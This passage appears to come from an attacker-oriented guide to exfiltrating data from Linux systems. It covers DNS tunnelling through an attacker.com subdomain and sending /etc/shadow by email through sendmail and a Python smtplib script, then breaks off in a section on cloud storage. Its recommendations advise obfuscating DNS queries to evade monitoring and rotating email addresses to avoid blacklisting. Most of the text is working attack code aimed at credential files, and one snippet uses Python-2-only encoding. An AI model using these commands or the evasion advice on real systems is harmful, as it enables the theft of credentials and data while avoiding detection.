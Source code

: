         data = "Sensitive Data"
        encoded_data = data.encode('base64').replace('\n', '')
        domain = f"{encoded_data}.attacker.com"
        dns.resolver.resolve(domain)

    Recommendations:
        Use subdomain delegation to exfiltrate large datasets.
        Obfuscate DNS queries to avoid detection by DNS monitoring tools.

D. Email Exfiltration

Description: Email is a common exfiltration method, where attackers send data as email attachments. Using command-line email clients on Linux makes this easy to achieve.

    Tools:
        sendmail: A popular mail transfer agent.
        mailx: A command-line mail client.
        Python with smtplib library.

    Command Examples:

        Using sendmail:

        bash

echo "Subject: Data Exfiltration" | sendmail -v -A attacker@mail.com < /etc/shadow

Using Python:

python

        import smtplib
        from email.mime.text import MIMEText

        sender = "attacker@mail.com"
        receiver = "receiver@mail.com"
        subject = "Exfiltrated Data"
        body = open('/etc/shadow').read()
        msg = MIMEText(body)
        msg['Subject'] = subject
        msg['From'] = sender
        msg['To'] = receiver

        smtp = smtplib.SMTP('smtp.mail.com')
        smtp.sendmail(sender, receiver, msg.as_string())
        smtp.quit()

    Recommendations:
        Use encrypted email channels to secure the data in transit.
        Regularly rotate email addresses to avoid blacklisting.

E. Cloud Storage Services

Description: Attackers can use cloud storage services to exfiltrate data from Linux systems. Cloud services are often trusted by corporate environments, making this method effective.

    Tools:
        AWS CLI: Amazon Web Services Command Line Interface.
        gsutil: Google Cloud Storage command-line tool.
        Python with cloud service SDKs.
